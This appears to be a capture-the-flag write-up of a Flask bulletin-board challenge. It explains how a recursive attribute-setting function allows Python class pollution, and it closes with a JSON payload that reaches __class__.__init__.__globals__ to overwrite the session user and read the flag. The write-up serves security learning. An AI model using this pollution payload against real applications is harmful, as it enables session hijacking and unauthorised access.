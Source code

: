 + When the Flask’s session’s user is witch, it’ll render the flag’s value from the environment variable.
+ After analyzing the source code the vulnerability seems to be in the set_ function which can be leveraged to pollute the user attribute of the session class in the flask application.
+ When a user visits the main page, the session[“user”] is set as “hansel & gretel”.

By sending a post request to save_bulletins in the following format users can save bulletins.
```
{
    "new_content": [
        {
            "title": "Test title",
            "text": "Test text"
        }
    ]
}
```
+ The bulletins are getting saved in the bulletin_board object. The class Board will be instantiated as bulletin_board when the app is run. The bulletins are saved in this object. This is achieved by the set_ function. The set_ function will iterate through all the keys in the source JSON from the request, and sets the keys as new attributes to the object structure and sets their value to the corresponding values in the JSON.
+ In the above example a new attribute called new_content will be added to the bulletin_board, and can now be referred to as bulletin_board.new_content. The value of new_content will become [ { “title”: “Test title”, “text”: “Test text” } ]
+ The user can load the bulletins by sending a POST request to load_bulletins. The bulletin_board.new_content will be appended to the bullentin_board.current_content and bullentin_board.new_content will be set to None. The bullentin_board.current_content will be reversed and returned.
+ Next, the /flag route. Sending a GET request to /flag, the flag will be fetched from environment variables and returned in the response if the session[“user”] is witch.
+ One way is to modify the session cookie. But this does not work in this context because the session is signed with a random key app.config[“SECRET_KEY”] = str(os.urandom(32)).
```
def set_(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                set_(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            set_(v, getattr(dst, k))
        else:
            setattr(dst, k, v)
```
+ 
    ```
  class Board():
    def __init__(self): pass


    @property
    def pinned_content(self):
        return [{
            "title": "Our First Adventure!", 
            "text": "Today we went to the forest and you can't believe what we've got to! It's a house made out of gingerbread, cake and candy! How sweet it is!"
        }]
    
    current_content = []

    [...]

    def load(self):
        res = self.pinned_content
        if isinstance(self.current_content, list) and len(self.current_content) > 0 and all(["title" in x and "text" in x for x in self.current_content]):
            res.extend(self.current_content)
        if hasattr(self, "new_content") and self.new_content is not None:
            new_content = getattr(self, "new_content")
            self.current_content.extend(new_content)
            res.extend(new_content)
            self.new_content = None
        return res[::-1]   
bulletin_board = Board()
@app.route("/")
def index():
    session["user"] = "hansel & gretel"
    bulletins = requests.post("http://localhost:3000/load_bulletins").json()
    return render_template("index.html", bulletins=bulletins)

+ When we go to /, it’ll set our session’s user to hansel & gretel, send a POST request to /load_bulletins route, and render the bulletins JSON data:
+ The load() method from class Board will first append the “Our First Adventure!” post, then append other new_content.
+ When we send a POST request to /save_bulletins, it’ll check the request’s header Content-Type is application/json or not. If it’s correct, call save() method with our request’s data from class Board.

+ Final payload to /flag
```
{"new_content": [{"title": "Test title","text": "Test text"}],
    "__class__":{
            "__init__":{
              "__globals__":{
               "session":{
                "user":"witch"
                }
            }
        }
    }
}
```

